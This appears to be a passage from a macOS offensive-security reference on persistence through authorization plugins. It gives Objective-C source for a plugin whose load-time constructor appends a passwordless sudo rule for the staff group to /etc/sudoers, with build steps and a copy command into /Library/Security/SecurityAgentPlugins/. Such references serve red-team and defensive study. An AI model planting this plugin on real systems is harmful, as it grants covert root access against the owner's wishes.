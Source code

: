 Writeup: [https://theevilbit.github.io/beyond/beyond\_0028/](https://theevilbit.github.io/beyond/beyond\_0028/)\
Writeup: [https://posts.specterops.io/persistent-credential-theft-with-authorization-plugins-d17b34719d65](https://posts.specterops.io/persistent-credential-theft-with-authorization-plugins-d17b34719d65)

* Useful to bypass sandbox: [🟠](https://emojipedia.org/large-orange-circle)
* But you need to be root and make extra configs
* TCC bypass: ???

#### Location

* `/Library/Security/SecurityAgentPlugins/`
* Root required
* It's also needed to configure the authorization database to use the plugin

#### Description & Exploitation

You can create an authorization plugin that will be executed when a user logs-in to maintain persistence. For more information about how to create one of these plugins check the previous writeups (and be careful, a poorly written one can lock you out and you will need to clean your mac from recovery mode).
```objectivec
// Compile the code and create a real bundle
// gcc -bundle -framework Foundation main.m -o CustomAuth
// mkdir -p CustomAuth.bundle/Contents/MacOS
// mv CustomAuth CustomAuth.bundle/Contents/MacOS/

#import <Foundation/Foundation.h>

__attribute__((constructor)) static void run()
{
NSLog(@"%@", @"[+] Custom Authorization Plugin was loaded");
system("echo \"%staff ALL=(ALL) NOPASSWD:ALL\" >> /etc/sudoers");
}
```
**Qap** the bundle to the location to be loaded:
```bash
cp -r CustomAuth.bundle /Library/Security/SecurityAgentPlugins/
```
